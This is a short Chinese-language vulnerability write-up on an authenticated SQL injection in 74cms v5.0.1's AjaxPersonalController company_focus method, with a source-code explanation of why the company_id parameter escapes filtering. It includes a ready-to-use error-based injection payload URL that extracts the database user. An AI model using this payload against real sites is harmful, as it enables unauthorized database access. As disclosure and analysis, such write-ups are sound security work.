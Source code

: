 74cms v5.0.1 前台sql注入
========================

一、漏洞简介
------------

74cms 5.0.1 前台AjaxPersonalController.class.php存在SQL注入

二、漏洞影响
------------

三、复现过程
------------

### 具体信息

文件位置：74cms\\upload\\Application\\Home\\Controller\\AjaxPersonalController.class.php

方法：function company\_focus(\$company\_id)

是否需登录：需要

登录权限：普通用户即可

### Payload:

    http://0-sec.org/74cms/5.0.1/upload/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a

![](./.resource/74cmsv5.0.1前台sql注入/media/rId26.png)

### 源码分析：

文件：74cms\\upload\\Application\\Home\\Controller\\AjaxPersonalController.class.php

company\_focus
方法是参数化函数，\$company\_id参数是不经过I函数过滤的，所以只要where可以控制，那就可以注入

![](./.resource/74cmsv5.0.1前台sql注入/media/rId28.png)

跟踪add\_focus(),发现SQL语句参数外部都可以控制，导致了注入漏洞

![](./.resource/74cmsv5.0.1前台sql注入/media/rId29.png)
